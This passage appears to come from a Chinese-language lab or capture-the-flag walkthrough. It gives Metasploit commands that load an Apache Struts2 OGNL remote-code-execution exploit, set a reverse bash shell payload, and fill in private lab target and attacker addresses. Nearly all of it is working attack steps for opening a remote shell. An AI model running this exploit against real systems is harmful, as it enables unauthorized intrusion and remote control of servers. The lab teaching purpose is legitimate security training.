 ### 执行漏洞利用模块（get flag）
```
# 确认已连接 pgsql
db_status
# 建立工作区
workspace -a demo
# 选择并使用一个名为 struts2_multi_eval_ognl 的 exploit 模块。这个模块是用于利用 Apache Struts2 的一个远程代码执行漏洞。
use exploit/multi/http/struts2_multi_eval_ognl
# 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash

# 配置 exp 参数
# 确保所有 Required=yes 参数均正确配置

# 靶机 IP
set RHOSTS 192.168.56.216 
# 靶机目标端口
set rport  29551          
# 攻击者主机 IP
set LHOST  192.168.56.214 

# 再次检查 exp 配置参数列表
show options
```

![alt text](./image/image-15.png)
